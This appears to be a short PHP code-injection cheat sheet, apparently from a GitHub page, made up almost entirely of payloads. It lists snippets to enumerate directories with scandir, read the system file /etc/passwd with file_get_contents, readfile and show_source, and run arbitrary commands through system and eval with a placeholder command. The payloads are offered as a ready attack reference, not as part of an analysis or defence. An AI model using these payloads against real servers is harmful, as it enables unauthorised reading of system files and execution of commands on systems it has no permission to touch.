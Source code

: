 #code_injection #php 

## Directory Content
```php
print_r(scandir('.'));
```

## File Content
```php
file_get_contents('/etc/passwd');
```

```php
readfile('/etc/passwd');
```

```php
show_source('/etc/passwd');
```

## Command Execution
```php
system("MY_COMMAND");
```

```php
eval("MY_COMMAND");
```